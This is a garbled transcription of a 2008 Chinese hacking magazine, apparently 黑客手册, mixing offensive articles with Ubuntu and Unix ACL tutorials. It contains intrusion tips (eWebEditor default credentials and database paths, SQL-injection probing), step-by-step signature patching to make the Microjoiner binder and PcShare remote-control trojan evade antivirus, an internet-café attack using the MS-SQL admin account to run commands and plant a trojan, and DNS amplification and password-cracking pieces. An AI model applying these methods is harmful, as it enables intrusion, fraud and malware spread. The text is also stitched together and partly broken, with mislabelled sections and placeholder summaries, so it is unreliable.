盯紧了？到这里我们已经完整实现一个 XSS WORM 了。看着，这个和仅仅一个弹出框比起来，是不是有趣而刺激多了？当然也复杂多了，需要有一定的编码能力。虽然 XSS WORM 使用的核心技术往往相似，但是在不同的 WEB2.0 环境下，XSS WORM 也会有很多差别。

很多技术细节不适合在本文出现，否则我们可以考虑出书了（有没有人买？）。能从文中大致了解到 WEB2.0 环境下 XSS 的流量已经足够，哪怕你深谙此道，想要传播得好，XSS 可不仅就这么点东西。最后的相关文章中将列出与本文有关的一些资料。

### 四、相关文章

- 1. 《WhiteHat Website Security Statistics Report》  
  http://www.whitehatsec.com/home/assets/WPstats032408.pdf
- 2. 《一次简单的 HTML Injection 导致的 Gmail 0day》  
  http://www.xfocus.net/articles/200711/957.html

c41f3f24c6cea3a7c995597e.html  
【本文的 x-xiaonei-worm.js 已收录在本期光盘】

编辑点评：要善用站内文章的结论，这需要一定的基础，同时还要对校内网的结构有一定的认识。也许这篇文章对有的读者来说过于深奥了，但是我想如果你多读几次，对照手册和作者提供的资料，你肯定会有所收获。提供我们写一个 XSS Worm 是难一点，但是了解一个 XSS Worm 是简单的。从了解，到编写，这样的学习过程必定会有一个窍门。

## 我在入侵时的一些经验和小技巧

国度·逆手刃（DJ.CST）·紫灰

在 NOH4CK 的前几期杂志中，很多前辈写的一些自己在入侵过程中的小小技巧，让人看得大呼过瘾！这次，我也来写一些我在入侵过程中的小技巧，希望大家喜欢！

- 1. 判断服务器所使用的系统

例如我们的目标网址地址为“http://www.nohack.cn/bbs/index.php”，那么我们把地址改为“http://www.nohack.cn/bbs/index.PHP”后再判断其是否存在。此例中，如果服务器所用的系统为 Windows，则一般仍可访问；如果显示不存在，则表明服务器很有可能使用的是 *nix 系统。

- 2. Ewebeditor 安全的前后技巧

eWebEditor 大家应该是再熟悉不过的吧？先用默认密码 admin888 登录，不行就下载默认数据库“/db/ewebeditor.mdb”，如果可以就暴力破解 admin789 登录。还有人说数据库在“/db/ewebeditor1013.mdb”，也能下载数据库。

- 3. 账号猜测的小技巧

在入侵的时候如果目标网站有论坛的话，我们可以试一下其管理站账号。比如一个网站是“bbs.nohack.cn”，管理站名称为 admin，我们就可以试试网站有没有“nohack”和“nohack.cn”来登录。

- 4. 入侵时的思维拓展

有时候我们得到了目标网站的密码，仅仅找不到后台，这时可以试一下 FTP 登录。例如，目标网站是“www.cmsst.org/bbs/”，得到的密码为“tyuio”，我们就可以试下“cmsst”、“cmsst.org”和“www.cmsst.org”作为 FTP 用户名，再把密码作为 FTP 密码来进行登录。

- 5. 入侵时获得管理目录名

有时候我们入侵后拿到了有权限访问的网站，注入到了管理权限，但是拿不到管理目录名称。这个时候可以从别的网站、论坛中找出这个字段，比如“提交者”、“发布者”之类的字段，一般“提交者”就是管理目录的名称。

- 6. 寻找管理后台

有时候我们得到了管理员的账号和密码，却找不到管理后台。这时我们可以对着网站上的图片点右键，查看其属性。有时候就能找到后台的目录。

- 7. 跟 WEB 绝对路径

众所周知，在入侵 asp.net 的网站时，我们首先就是在 aspx……

- 8. stm 文件在入侵中的作用

当网站不允许上传 asp、cer、cdx、ht 等文件时，上传一个 stm 文件，代码为“<!--#include file="conn.asp"-->”，或者写成其他形式，将文件处理为 stm 文件。再查看代码，便可再利用连入数据库的代码。

- 9. 注入的技巧

在找到一个网站可能存在注入漏洞的地址时（假设地址为“http://www.nohack.cn/news.asp?id=6”），我们通常会先提交一个 1 或 2 作为参数，如果返回正常，那么再进一步让注入程序进入相关的判断规则。这样就可以提高注入的成功率。

- 10. 防注入程序拿 shell

当你用单引号“'”来测试一个网站可能存在注入漏洞的地址时，弹出“你的操作已经被记录”这样的提示，而你仅仅认为这是防注入程序的原因所致，我们就可以试着提交“http://www.nohack.cn/sqlin.asp”查看程序，不起作用时，再试“http://www.nohack.cn/news.asp?id=6”。如果程序是“sqlin.asp”，并且最后返回错误提示，则说明漏洞点可能被程序记录到了数据库。

本文的最后还有一些经验和小技巧，在此省略。

NOH4CK 457

## 打造免杀的 Microjoiner 1.7 捆绑机个人版

本次你可以学习到：

- 1. 免杀的 Microjoiner 1.7
- 2. 如何改造为程序的个人版本

六月了，胡同似火，虽然还没达到炙烤一般的热，但是热浪始终大举来袭。即使受前几个月天气的影响，但是广东那几个月的今天，天气依然还是没什么变化。炎热总是笼罩着大地……（原图文字较密，部分不可辨识）

Microjoiner 是一款国外非常迷你的捆绑机，纯 ASM 语言打造，其中的 Stub 只有 2KB，而且图标也是无损的。个人认为这个是所有捆绑机中最优秀的，而且一些其它的捆绑机也是仿造这个修改而来的。这个捆绑机设计精巧，功能一流：捆绑出的文件无法查看出捆绑前的缝隙数据，支持再次加密/加壳，捆绑的文件不局限于 EXE 格式，任意格式都可以，而且相当稳定，这一点当之无愧。但是也有个小小的缺点，资源修改的时候找不到资源导出 Stub，所以处理起来有一定的困难。不过也很好解决，这次我们就来做它的免杀。图上这个捆绑机版本很多，我觉得原版更好一点，所以在主页下载了一个 UPX 的壳，直接用工具 UPXShellEx 就脱壳了，我们现在开始做免杀。


新建一个空白的文本文档，在“Pack files”选项里，把勾去掉（选上勾可能会压缩，我这里不用。要用无壳的），直接点“Create”就生成了一个文件，金山扫描一下，结果如图 2。


我们先定位一下特征码所在的位置，然后再做出直接生成免杀的版本，也就是我们要打造的个人捆绑器。拿出可用的 MYCCL 特征定位器，看看，如图 3。右下两处：

转换成内存地址为 0040142F，我们把 0040142F 这特征码 NOP 掉，保存后发现，不杀了，如图 4。不杀说明特征码位置准确，而开始修改。用 OD 载入，复制出 0040142A 附近的反汇编代码：


```text
0040141E /EB 0D     jmp short 0040142F
00401420 /AF        scas dword ptr es:[edi]
00401421  ^83FF 0C  cmp edi,0C
00401424  75 E3     jnz short 00401409
00401426  .E2 C0    loopd short 004013F0
00401428  .pop esi
00401429  .pop eax
0040142A  .pop eax
0040142B  .pop ecx
0040142C  .add esi,0
0040142E  .loopd short 004013CF
```

加粗的那行就是特征码所在的位置，其实这一小段是捆绑机数据操作的关键位置，比较难修改，只可以跟随替换，但是修改之后无法运行。后来发现是一段 loop 的循环，尝试修改其中间的某行也会失效。我们发现左边 0040142A 处有一个 loopd 循环，在地址 00401426 处，尝试将特征码附近的循环改成 loopde，这样不会改变循环结构。loopd 必须是在目的地址，必须距本指令在 -128 到 +127 个字节的范围内。然而 loopde 也始终无法运行。这样看来，问题还是在于 loopd 和 loopde 到底有什么区别。后来再仔细一看，我把特征码后面的一个 loopd 改成 loopde 之后，可以运行，也不杀，目的终于达到了。修改之后，金山扫了一下，免杀……（原图文字较密，部分不可辨识）


器码是 E1，我们取其两边的机器码若干，组成一串，取 3F0075E3E2C8585861，然后在 C32ASM 中以 16 进制格式搜索，取长一些就能方便锁定到一处，如图 5。

在 C32ASM 中搜索到一处，然后把 E2 改成 E1 后保存，如图 6。运行，捆绑生成一个文件，测试下效果。生成文件后用金山毒霸查杀，结果就杀不掉，这样一个直接生成免杀的 MJ 捆绑机就打造完成了。当然，只是用金山做了下演示，其他杀软可以用同样的方法。这样就不再对一个生成的文件进行修改了，省去了许多步骤和时间。下面我们简单汉化一下这个“捆绑机”，并添加个人信息。用到的工具是 RESSCOPE 1.94，打开修改后的程序，如图 7。

直接在标题处修改就可以了，修改“OK”为“确定”，“CREATE”为“创建”，当然这不过是简单地汉化了界面，如图 8。

这样一个属于自己的专用捆绑器就完成了。


编辑点评：

其实专栏里的每期专题都是设定一个让自认为很高级的题目，欢迎大家来投稿。像“入侵时的一些经验和技巧”，每个人都有口中的办法，这就是所谓的经验积累。拿来写可以学到一定的知识，但攻防这条路还是只能靠自己的积累。我相信很少有人会把自己的想法全部写出来，因为有很多只能意会不言传的东西。这篇文章作者提供了 10 个小技巧，也许有的是你已经整理过的经验，但是我相信，有的还是会让你心动一下的。

## 木马免杀之让杀毒软件变成瞎眼瞎

从本文你可以学习到：

制作免杀的 PcShare 远程控制《黑客手册》专版

今天给大家带来木马免杀的高级方法。大家都知道木马免杀分很多种，这里我就不一一举例了。经常看“黑盟”的朋友应该有所了解，加壳加花的免杀已经不实用了，现在的杀软几乎都火候很足，杀毒不但可以穿透我们的壳，甚至可以脱壳。再者，加壳后的免杀存活时间相对较快，但很快就被查杀，所以这次我们还是通过特征码来实现透明免杀，这里我就不再说那些泛泛的修改方法了，因为方法太笨，可以略过。今天要介绍的就是避免被查杀的经典方法。大家知道，如果特征位定位在代码段，一般普通的方法去修改可以忽略，然而如果定位在数据段就没那么容易了。因为数据段不仅仅存放数据，数据段改动还会牵涉结构、指针和指针值的输入输出。程序内存中是以地址保存着所有数据，我们通过调试软件，如 C32Asm，看到数据段是以汇编形式显示的，这是系统做的映射。程序运行时，它把信息作为文字数据，并不是可编译的指令，所以不能随便修改。如果你能让某些特征的数据格式发生变化，只要不碰它的头部，那么它的老特征就不会被发现。接下来我会详细介绍，先看下面的图。

这次我用的是 PcShare 远程控制《黑客手册》专版来讲解，此版本我已经先公布到了论坛上了。大家可以先打开。如果你对它某个特征码不太明白，不妨问问以前的“黑手”相关文章。定位方法嘛，我们把 PcShare 的 exe 文件里的特征码尾 0000248C 找出来，这是用 C32Asm 载入 PcShare 的 EXE 文件，按下 CTRL+G 后在弹出的窗口中输入我们的特征码文件偏移地址，来到特征码处，我们看到特征码定位在了数据段，也就是 Unicode 编码处，如图 1。


我们先不修改，原理后面会总结。我们把特征码用 OC 偏移转换工具转为内存偏移地址，转换后为 0040408C，如图 2。


接着我们用 OllyDbg 载入，找到一个 CALL，CALL 在汇编中就是过程调用指令。我找的 CALL 在 00402732，一会我们还需要用到这条指令，所以需要先记下来，00002732，CALL 00402732 处的 call。

在此地址上右键选择二进制，使用 NOP 填充，NOP 序列后如图 3 所示。

接着我们在偏移处右键选择一个地址然后进行二进制修改，选择填入 NOP 填充，这时得到下图 NOP 指令栏。在右键地址中右键选择 HEX/Unicode 16 位，如图 4。

再按 CTRL+G，弹出表达式窗口，输入我们的特征偏移内存地址 0040408C，这时映像显示了我们的特征码位置，如图 5。


下面我们就要输入源指令了，指令如下：

```text
pushad
mov dword ptr [0040408C], 30275325
mov dword ptr [00404090], 6927e85d
mov dword ptr [00404094], 000086E6
MOV DWORD PTR [00404098], 626C6477
popad
CALL 004021BC
retn
```

我们来了解下这些指令的意思。首先 PUSHAD 将所有寄存器压栈，MOV 是传送指令，所以第 2 句指令的意思就是将特征码的二进制转成 30275325 传送到内存中。大家看到图 5 的 HEX 数据了吗？第一句就是特征码的二进制代码，就是 4 字节形式排列的。我们在写入第二块的二进制代码的时候，分别以 25 73 30 25、25 73 25 73、25 25 73 25 73 的方式写入，所以相应字节就会被压入。至于第三句中的原因，因为要接着把后面的所有数据都压入。

# Linux

这是一本关于 Linux 内核与用户空间交互、以及 Linux 技术发展的文章内容，页面主体为双栏排版，包含对 Linux 系统、Windows、编译器和内存填充等主题的讨论。

- 1. Linux 系统最需要的是电脑游戏
- 2. Linux 系统还可以浏览器“火狐”与“如鼠”

文中提到 Linux 用户群体、桌面应用、游戏支持以及与 Windows 相比的普及率问题，并讨论了 Linux 在图形桌面和软件生态方面的局限。

作者进一步说明了 Linux 中二进制补丁、CALL/NOP 指令替换、内存填充以及程序执行流程等内容，并通过示例解释了如何修改可执行文件中的指令和数据。

右栏继续讨论 Linux 技术演进与 GNU、Free Software Foundation、Debian 以及 Ubuntu 等发行版相关背景，并提到浏览器和桌面环境在 Linux 生态中的作用。


总结：使用这样的办法达到的效果来得更为直观，可以把待填充内容再从内存中恢复。作者总结了这一方法的局限性，并提到对中文和 Unicode 的处理问题。

## 3. 摒弃前嫌，KDE、GNOME 携手共创 Linux 桌面

3 年前，人们还在抱怨 Linux 桌面环境的两大阵营：KDE 和 GNOME 经常争论不休，甚至争执起来就像《猫和老鼠》里面的 TOM 和 JERRY 一样常年不和。Linux 桌面系统的两大阵营，KDE 和 GNOME 已经开始在 2009 年获得了一些共同的共鸣。在对外公布的消息中，KDE 项目的主管 Cornelius Schumacher 说：“两大社区之间都没有难到不能一起来分享。”而 Red Hat 的软件工程师、GNOME 的主管 Behdad Esfahbod 也说：“我们发现我们之间有很多共识，比如我们对软件的看法有着共同的理解。”GNOME 项目的主管 Behdad Esfahbod 说：共同奉献理念会让很多界面自然融合，更容易采用。

风跟点评：不言而喻，几年以后，在安装 Linux 时选择 KDE 还是 GNOME 还会有争论。

## 4. Ubuntu 成功登录 PDA，拓展移动市场

Ubuntu 这个基于 Debian 的 Linux 发行版已经风靡了桌面，可是它的野心并不止于此。在 8.04 Hardy Heron 发布正式版的时候，Ubuntu 又将其触角扩展到移动设备市场，现在要说的是 Zaurus 系列 PDA 上已经出现了 Ubuntu 的身影。

把 Ubuntu 架构移植到 Zaurus PDA 上的是名为 “Omapzoom” 的移植团体，他们之前已经把 Fedora 和 Google 的 Android 系统移植到 Sharp Zaurus 上。他们用 QEMU 模拟器进行参数和硬件的模拟修改，成功地把 Ubuntu 7.04 运行到 Zaurus PDA SL-C3100 上。这款 PDA 采用了 PXA270 416MHz 处理器、128MB Flash ROM、64MB RAM、4GB 硬盘，屏幕为 3.7 英寸（640×480），同时还配有 SD 卡、Type II CF 卡插槽、USB 接口和红外线接口。它还可以通过 USB 与 PC 连接，浏览和编辑 Word、Excel、文本文件等，同时还支持 Windows Media Player 10 软件，可播放 MP3、WMA 音频文件。这款 PDA 的外观尺寸为 124×87×25mm，重量大约 298g，可充式锂电池支持 7 小时持续播放。

风跟点评：Ubuntu 之所以变得这么强，一直在不断地努力，做大、做强，从单纯到复杂，都伴随着用户基础的扩展。现在在移动设备上的发展，有望将其优势延伸到更广阔的天地。

## Ubuntu 8.04 不完全体验之旅

从本文您可以学到：了解 Ubuntu 的最新版本 8.04

2008 年 4 月 24 日，Ubuntu 的最新版本 8.04 版 Hardy Heron 正式发布了。这次的文章中我们要聊一下最新 Ubuntu 的魅力。由于在本文投稿之后，8.04 正式版本还没有出来，所以文章的内容以 8.04 beta 版本为基准，不过除了软件版本上的更新，beta 版本和正式版本也没有大的差异。因此，本文内容也完全适用于正式版本。

以前的文章中也提到过 Ubuntu 的发行规律和命名规则，一般是半年的一个周期，比如 6.10、7.04、7.10、8.04，依次都是以“年.月”的数字顺序划分。发布后的版本名字，比如 7.10 版本叫做 “Gutsy Gibbon”，意思为“勇敢的长臂猴”；而 8.04 版本则称为 “Hardy Heron”，解释为“顽强的苍鹭”。版本号则由每年的年月表示，比如 7.10 代表 2007 年 10 月，这次的 8.04 即为 08 年 4 月。Ubuntu 的正式版本中还会带有一条特别的补充说明 “Long Term Support（LTS）”，表示支持时间为 3～5 年，而 8.04 版本本身已是 LTS 版本，这意味着 8.04 版本将会得到 Ubuntu 团队较长期、大约 5 年的支持。

首先看看如何安装这个版本的 Ubuntu，安装方法很务实。

- 得到安装光盘，从光盘启动并安装，这是最正常的安装方式，以前的文章也曾大力地提过。
- 下载光盘镜像，从硬盘安装。这种方式适合于不想刻录或者没有光驱的用户，但是速度比第一个安装方式要慢，需要下载对应系统和安装文件以及 grub 程序。
- 对于已经安装过 7.10 版本的用户，升级非常简单，直接运行 `sudo update-manager -d`，按照提示即可升级到 8.04 版本，这也是笔者采用的方法。

Ubuntu 版本的升级是个无缝升级的过程，当中不需要重启太多次，不会有太多额外修改。只需要下载大概几百兆的文件，即可完成从低版本到高版本的升级。对于无光驱机器的镜像，可以采用 Wubi 的安装方法，这对无光驱设备的使用是很方便的，因为可以直接安装 Ubuntu，方便学习和使用。

Ubuntu 提供了丰富的桌面环境和强大的应用程序。Wubi 可以让你在 Windows 环境下方便地安装 Ubuntu，通过各种兼容层和工具实现基本的日常办公、娱乐和文件处理。安装和使用上都比过去更加方便，用户可以通过 Ubuntu 更容易地获得所需的功能，帮助其快速上手并逐渐熟悉系统。

安装好以后进入桌面会发现默认的背景上是一只苍鹭，这正代表了 8.04 版的精神，一只优雅勤奋的苍鹭。8.04 版本默认的主题还是 Ubuntu 系列中较为经典的主题，也就是以棕色为主基调，整体界面简洁而优雅。更值得一提的是，8.04 还带来了最新的 GNOME 发布版本 2.22.1，不仅仅 Ubuntu 采用，Fedora、openSUSE 11 等发行版也都将采用此版本的 GNOME。这些更新使得桌面环境更稳定，界面更加精致，同时对多媒体和网络功能也有增强。

新的文件系统可以支持更多新的特性，比如以块为中心的文件操作，也支持一些新的协议，如 `cdda://` 可以用来直接访问 CD 上的歌曲，`gphoto2://` 可以直接访问连接在计算机上的数码相机。此外，GVFS 对移动存储的支持也更加智能了。对于开发者而言，GVFS 提供了一个简单易用的 VFS 系统，它的目的是提供 POSIX I/O 透明，而不是完整的 POSIX I/O API。得益于 GVFS 文件系统，使得 GNOME 2.22 的应用程序响应速度有了很大的提升。

此外，8.04 采用的内核为 2.6.24，如图 1 所示。从图 1 中可以看到，笔者的计算机使用的是 server 内核，如果你也有 4G 或者以上的内存，使用默认的 generic 内核就和 Windows 32bit 版本一样，只能认出 3.5G 左右。在 Windows 中想要使用 4G 内存，必须换成 64 位的操作系统，但是在 Linux 下则只需换个服务器版本的内核就可以了。服务器版本的内核还支持笔者的 6600 多核处理器。8.04 的内核改为 2.6.24-15 或更新更高，2.6.24 版本的内核对 AMD64 的 CPU 支持得更好，加入了一些新的进程间调度算法和其他更加细微的改进。Linux 内核总在不停地开发中，总是有新的特性加入其中，任何人都能够参与到编译、修改、使用它。以后有机会可以讲讲如何自定义自己的内核，使得计算机的运行速度更上一层楼。

下面讲一下 Ubuntu 8.04 在桌面方面的一些改变。对于桌面用户来说，引起了哪些新的东西呢？其实如果你是从 7.10 升级上来的话，可能一时之间还看不太真切这种变化，所以 GNOME 还是 GNOME，Ubuntu 还是 Ubuntu，只不过版本号变化了。其实真正的功能还是有些变化的，比如 GNOME 2.22 增加了一个摄像头应用程序 Cheese，如图 2 所示。因为笔者没有摄像头，打开只能看到电视卡的画面图像，摄像头连着是有问题的。所以只能把它作为程序的视频服务基础，说不定不久的将来就能在 Pidgin 上面和 QQ 里面的美眉视频了，真是口水啊！

BT 下载软件使用了 Transmission 这个应用程序，如图 3 所示，取代了原本的 Gnome BitTorrent 应用程序。不过对于下载，笔者还是认为 eMule 的协议要比 BT 协议强，eMule 上几年前的文件还是存在的，BT 上二三个月前的却总不能找到什么完整资源。所以下载还是用上期杂志介绍的 mldonkey 比较强。

另一方面，GNOME 的默认 Metacity 窗口管理器也支持了 3D 特性，效果有下拉阴影、窗口透明、Alt+Tab 切换效果等等。虽然比 Compiz Fusion 要差得多，但是终于开窍了，GNOME 也不再只是个 GNOME 应用程序集合，变得更像一个桌面了。

要这些花哨的东西，原则自然是其他一切从简。打开特效的前提是显卡驱动已经安装好。笔者认为支持得比较好的显卡有 Nvidia 和 Intel 的，ATI 和 SIS 等等支持得还不算好，所以笔者也许会更推荐 Nvidia。

此外，任务栏的时钟面板支持多个时区的显示，而且能实时地显示当地的温度，如图 4 所示，再也不用装 Firefox 的插件了。GNOME 2.22 还内置支持了 LZMA，也就是 7-Zip 的压缩格式；图像查看器还支持了更多图片类型；还带来了全新更好的进度条图形。系统里原来的内容以及浏览功能也增加了。最后，GNOME 2.22 的语言支持达到了 46 种，世界上大多数的语言在这里都能找到直观的本地化支持。

直到系统用户可配置的特性方面，比如除了内置的应用程序外，如 Xorg 与 Linux 之外，还提供了比原有版本更好的支持库。它提供了自动配置能力，让用户动态地修改分辨率、刷新率、输出方式来调整屏幕显示，如图 5 所示。KVM 也被整合到了 Ubuntu 自己的内核中，libvirt 和 Virtual Manager 被集成到 Ubuntu 中，使得用户可以更加方便地利用远程方式来创建和管理虚拟机。新的 Inkscape 引入了新的 PDF 导出功能，使得可以快速地进行渲染。而这一功能不只是对很多研究中的东西提供支持，还能使用很多以前没有的功能，甚至还支持了 Active Directory，看来 Linux 和 Windows 的关系越来越密切了。

还是那句老话，Ubuntu 是桌面的，谁用谁知道。大家在试用的同时，别忘了向周围的朋友推荐，并为开源事业添砖加瓦。

## Unix 系统安全
### —— 权限机制加强版（续）

从本文您可以学到：

- 认识和了解 ACL
- 学会 Unix 下复杂权限的配置

上期在 FreeBSD 系统上介绍了类 Unix 系统基础的权限体系。这些在 Unix 系统上沿用了多年的权限机制，由于欠缺灵活性，在权限问题上一段时期远远落在 Windows 后面，而新权限机制标准的诞生填补了 Unix 系统在权限问题上的尴尬。这期我们讨论在 Unix 系统安全机制中比较重要的权限机制 ACL。如果您对类 Unix 系统权限不了解，请参见《黑客手册》的 0804 期。

权限控制上，系统中每个目录和每个文件的权限分别为：所有者、群组以及其它，而每组中的属性分为三类：读、写及执行，如：

```bash
[root@rhel4 home]# ls -l passwd
-rw-r----- 1 jean financial 1728 Feb 05 03:03 passwd
```

passwd 文件的所有者 jean 具有读、写权限，隶属 financial 组的用户有只读的权限。如果我们想改变一下权限，让 user、jean 用户有读写权限，而 financial 组有读权限，拒绝 vendition 组用户访问，允许财务部其它用户组用户读、写权限。大家想一想，用传统的 chmod 改变权限是否可行？告诉您吧，chmod 是无法完成这种权限设置的。Windows 系统轻轻松松可以搞定，Unix 系统下这种复杂权限就要采取使用 ACL 来管理，本文也围绕着以上权限来给大家演示 Unix 新的权限机制。

> ACL（Access Control List）是对 Unix 系统权限机制的扩展，其目的是为 Unix 系统创建一个统一的 ACL 标准。这个 POSIX ACL 的功能在 Linux kernel 2.6 中使用。当然，大家在编译系统 kernel 时要启动 ACL。

启用 ACL 管理机制，只有内核支持还不够，你需要在 `/etc/fstab` 的挂载点后增加 `acl`，Linux 系统如此。加入 ACL 支持后重新启动即可，或者重新挂载目录。RHEL4、FreeBSD 5.1 以上默认支持 ACL，无须重新编译内核。

使用 ACL 获取相关信息，需要使用 `getfacl` 命令，它可以获取文件和目录中的 ACL 设置信息。下面将 passwd 文件拿来演示，运行 `getfacl passwd`，返回信息如下：

```bash
### getfacl passwd
### file: passwd
### owner: jean
### group: financial
user::rw-
```

返回信息很简单，分别列出了用户所有者、群组的权限等，看起来有点像 `ls -l` 的扩展。因为这是个普通文件，按照前面我说的，让 jean、user 用户都拥有读、写权限，也就是设计 passwd 文件有两个所有者，可以运行 `setfacl -m u:jean:rw passwd` 命令，使 jean 用户有读（r）写（w）权限。语句意思参见图 1。

我们看返回信息中，`user:jean:rw-`，说明 jean 用户具有了读、写的权限，而文件所有者和目录用户等有读权限。只要用 `ls -l` 查看时，用户权限并没有改变。

如果设置 financial 组读取权限，拒绝 vendition 组用户访问，允许财务部其它组用户读写，使用 ACL 设置文件权限即可。如果让文件或整个目录设置 `chmod o=r passwd` 这种权限，不好理解的是无论是测试组、user 用户，还是 vendition 组的其它用户，其实它与系统 `chmod` 命令设置的 `other` 权限是一样的，无法单独过滤掉 vendition 组用户，这就体现出 ACL 的细粒度控制。

```bash
### setfacl -m g:vendition:--- passwd
```

我们看看用 ACL 如何判定权限，它不会仅仅套用传统的 user/group/other 优先方式。我们将测试一下，用 vendition 组中的用户 redhat 来读取 passwd 内容，如图 2。如果按照 `ls -l` 查看的权限来判断，redhat 用户应该归类到 other 用户，从而有读权限，那就能用 more 来读取 passwd 内容。但是系统提示 `Permission denied`，说明 ACL 权限生效。ACL 细化了传统 Unix 权限，我们无法再仅通过一层用户和组来简单区分。

```bash
### getfacl passwd
### file: passwd
### owner: jean
### group: financial
### user::rw-
```

假设一种情况，jean 用户是这个文件的管理者，而且 jean 用户也隶属于 vendition 组！那么，`passwd` 文件是拒绝 vendition 组中的用户 jean 的访问，还是允许这个文件管理员 jean 的操作呢？我们清楚地看到 vendition 组中的用户 redhat 在图 2 中是被拒绝的，那么 jean 也是 vendition 组用户，拒绝还是允许呢？

## ACL安全黑客手册 2008.06→[国外]

允许？结论是只要 ACL 列表里的 user 和 group 部分权限是分开计算的，那么 user 优先！如图 3。

假设一，sally 用户同时隶属于 financial 组和 office 组，那么，我们将“passwd”权限设置成 office 组权限（setfacl -m g:office:--,g:financial:r passwd），那么 sally 用户，她是继承 office 组（拒绝）还是继承 financial（允许）权限呢？结论是 ACL 的权限在组发生冲突时是允许优先。


假设二，“passwd”文件，office 有权限读取，而拒绝属于 office 组的用户 sally 读取（setfacl -m u:sally:--,g:office:r passwd）？如果 sally 是文件的直接所有者，那么她是否会绕过 ACL 权限，成为用户自己本身的权限？这可以直接验证。


可能有的人会认为，这东西有什么用，谁会把权限要求成这样啊！没有什么现实意义。其实有这种权限需求的企业业务，十二分常见吧！我用小小的案例说明一下 ACL 在现实工作中的作用。

在上期试运，笔者到一家公司调试，我们继续延续公司的考题。在公司每个部门都有一个私有的共享目录。比如，财务部（financial）有的时候要使用销售部（vendition）的文件，即能允许将他要用的文件共享进这个目录。假设销售部有文件目录“vendition”，财务部门（financial）同时可以访问该目录，对财务总监 john 可以访问该目录，职能办公室的 sally、tony（office）由于业务关系也可以得到编辑的权限。其中技术部（technic）的 nichole 是该目录的管理员，也可以访问；然后拒绝其它用户的访问。

案例分析：我们新建一个文件夹 vendition（权限 700），只有 root 用户可以完全控制。下面 vendition，vendition 组对该共享目录有权限，financial 组可用“setfacl -m g:vendition:rwx,g:financial:rx vendition”命令设置。文件服务器可以用 Samba 来作为，当 Samba 的配置文件中最少要增加如下几句，我们也就不多说了，可以对目录进行“上锁”。


测试服务器：用 Samba 的客户端程序 smbclient 登录服务器 localhost 的 vendition 目录，用户名及密码均是 jane。例如：

图 6 中，用客户端程序 smbclient 通过 localhost/vendition -U jane%jane 登录服务器；用 put /etc/passwd jean.txt 上传文件成功，而 jane 用户只能查看目录内的文件，不能上传，因为“setfacl -m g:vendition:rwx,g:financial:rx vendition”命令定义了 financial 组仅具有读取权限。


任务要求中说，sally、tony、nichole 都可以进入目录，并使用“setfacl -m u:john:rwx,u:nichole:rwx,u:tony:rwx vendition”命令，将 john、sally、tony、nichole 列为用户目录读写权限。setfacl 的参数最好是按顺序设置，而不是累加，你可以使用参数一次完成一组权限的配置。这时“getfacl vendition”查看目录的权限就应该是：

```text
user::rwx
user:nichole:rwx
user:john:rwx
user:sally:rwx
group::rwx
group:financial:rx
group:vendition:rwx
```

这时，如果用 nichole 用户登录服务器，会出现如下错误！

```text
### smbclient //localhost/vendition -U nichole%nichole
Domain=[RAHEL4] OS=[Unix] Server=[Samba 3.0.28]
tree connect failed: NT_STATUS_ACCESS_DENIED
```

明确 ACL 权限允许 nichole 用户访问，同时为何还会被拒绝呢？其实这关系到 Samba 服务器的权限。我们说，在 Linux 系统的服务器中，涉及权限的地方至少有两级，一个是目录权限，另一个是服务器权限，两者缺一不可。但需要老老实实地说，在前面的 Samba 配置文件中，仅有 financial、vendition 组用户可以访问该目录。所以 nichole 用户虽然本身被 ACL 允许，仍会被系统拒绝。你可以加入如下参数，这样就会登录成功！

```text
valid users = @financial @vendition john sally tony nichole
write list = @financial @vendition john sally tony nichole
```

加入上面的字段到服务器配置文件中，重新启动服务器，就可以登录成功。我们的实例做到这里就完整完成了。

编辑点评：在了解了 Unix 的基本权限与 ACL 之后，这期就带大家实现入门学习了。ACL 机制在许多复杂的共享权限情况下，常常用来设置复杂的权限需求。上期也说，Unix 的权限机制是一个系统的体现，很多基本上你掌握到原理之后，就能在任何日常工作中进行了。希望大家多练习，不断摸索，越做越有心得。

## 【泡泡吧】← 2008.06

泡泡尾语：

时隔好久，再次来到泡吧，感觉好亲切，这次由我来接替辛苦、勇敢牺牲的人了。哥说失去才知道珍惜，我似乎就是典型例子，还是向南说得对：大学一年半，好日子就过去了，我暂时就是这么认为的，所以还要努力。各位学生朋友，好好珍惜在学校的时光……唉，谁能懂，这么久了还没有适应这儿的人和习惯啊！这次泡泡吧里给大家准备了一些比较容易接受的文章，很容易上手，想要实践尽量照着附图，就不要错过啦！

## Strike The Internet Bar

风鱼

从本文中你可以学到：

- 如何在网吧中找到服务器的 IP 地址
- 如何利用 SQL SERVER 的管理员密码执行远程命令
- 如何利用 ftp 上传文件

如果你没有一台个人电脑，不得不去 Internet Bar 上网，那你可以试下 my article，在你浏览完后，很可能你不用花任何 money，但他的上网卡里有永远用不完的 money，而且很有可能，主机也会不经意装上木马。Oh yeah, let's go!

我们这里网吧使用的收费系统是 Pubwin EP，Pubwin EP 使用的数据库是 MS-SQL。这篇文章的中心就是用 MS-SQL 账户登录 MS-SQL 主机，然后利用 MS-SQL 的一些功能达到目的。上一段我已经说了我想要干什么，下面我就来说说注意点。首先锁定目标，你要先找 MS-SQL 主机的 IP。我们知道既然收费系统的服务端要对客户端主机进行响应，那么它就会有客户端联系，而我们先看网络状态再说吧。打开 cmd.exe，输入 netstat，回车，如果你运气够好的话，MS-SQL 主机已经被暴露了，如图 1。

注意最后一行 TCP 0.0.0.0:1505 192.168.1.168:ms-sql-s TIME_WAIT，192.168.1.168 就是我找的 SQL-SERVER 数据库的主机了。你也可以输入 netstat -an，如果你运气还不是很好的话会看到如图 2 情况。

其中有一行 TCP 192.168.1.40:1505 192.168.1.168:1433 TIME_WAIT，TIME_WAIT 状态说明 192.168.1.168 的 1433 端口曾经和客户端联系过，而且我们知道开放 SQL-SERVER 的主机默认对外开放 1433 端口，所以 192.168.1.168 就是我要找的 SQL-SERVER 主机。你也可以不管三七二十一，用端口扫描工具把这里所有开放 1433 端口的主机都扫出来，如果你运气够好的话结果就如图 3。

不过有的网吧情况并不是这样，如果如图 4，再一次输入 netstat，又变成这样，如图 5。


## 实现 DNS 放大攻击

本文将以学习到：

- 了解 DNS 数据包及 IP 头的结构
- 伪造 IP 头达到攻击目的

本文章献给奋斗在前方的你，希望能在六月份的高考中顺顺利利……


图 14 成功远程控制服务器。

还有需要验证一下，这次木马已经传送过去了。接下来启动我们的木马吧，执行 c:\winnt\system32\focus.exe 运行执行。

## 网吧破万象密码和系统管理员密码

从本文中你可以学到：

- 如何破解万象网管软件的密码
- 如何通过万象管理台获取系统密码


编辑点评：

这些文章适合那些急于打败万象控件……

